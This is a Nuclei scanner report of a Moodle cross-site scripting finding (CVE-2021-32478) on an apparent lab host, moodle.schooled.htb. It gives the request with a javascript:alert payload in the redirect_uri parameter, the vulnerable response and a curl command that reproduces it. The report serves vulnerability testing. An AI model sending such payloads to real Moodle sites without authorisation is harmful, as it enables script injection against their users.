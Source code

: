 ### Moodle - Cross-Site Scripting (moodle-xss) found on moodle.schooled.htb

----
**Details**: **moodle-xss** matched at moodle.schooled.htb

**Protocol**: HTTP

**Full URL**: http://moodle.schooled.htb/moodle/mod/lti/auth.php?redirect_uri=javascript:alert('2fjgb7NMz5IMWAcozlpOCwyPKT0')

**Timestamp**: Sun Apr 28 17:03:54 +0100 BST 2024

**Template Information**

| Key | Value |
| --- | --- |
| Name | Moodle - Cross-Site Scripting |
| Authors | hackergautam |
| Tags | moodle, xss, intrusive |
| Severity | medium |
| Description | Moodle 3.10 to 3.10.3, 3.9 to 3.9.6, 3.8 to 3.8.8, and earlier unsupported versions contain a cross-site scripting vulnerability via the redirect_uri parameter. |
| CVSS-Metrics | [CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:L/I:L/A:N) |
| CWE-ID | [CWE-80](https://cwe.mitre.org/data/definitions/80.html) |
| CVSS-Score | 5.40 |

**Request**
```http
GET /moodle/mod/lti/auth.php?redirect_uri=javascript:alert('2fjgb7NMz5IMWAcozlpOCwyPKT0') HTTP/1.1
Host: moodle.schooled.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 366
Cache-Control: no-store, no-cache, must-revalidate
Content-Type: text/html; charset=utf-8
Date: Sun, 28 Apr 2024 16:03:53 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.46 (FreeBSD) PHP/7.4.15
Set-Cookie: MoodleSession=h9m58o4u3dt1e7dvvmj8r392hk; path=/moodle/
X-Powered-By: PHP/7.4.15

<form action="javascript:alert('2fjgb7NMz5IMWAcozlpOCwyPKT0')" name="ltiAuthForm" id="ltiAuthForm" method="post" enctype="application/x-www-form-urlencoded">
  <input type="hidden" name="error" value="invalid_request"/>
  <input type="hidden" name="state" value=""/>
</form>
<script type="text/javascript">
//<![CDATA[
document.ltiAuthForm.submit();
//]]>
</script>

```

References: 
- https://twitter.com/jacksonhhax/status/1391367064154042377
- https://nvd.nist.gov/vuln/detail/cve-2021-32478

**CURL command**
```sh
curl -X 'GET' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/118.0' 'http://moodle.schooled.htb/moodle/mod/lti/auth.php?redirect_uri=javascript:alert('\''2fjgb7NMz5IMWAcozlpOCwyPKT0'\'')'
```

----

Generated by [Nuclei v3.2.2](https://github.com/projectdiscovery/nuclei)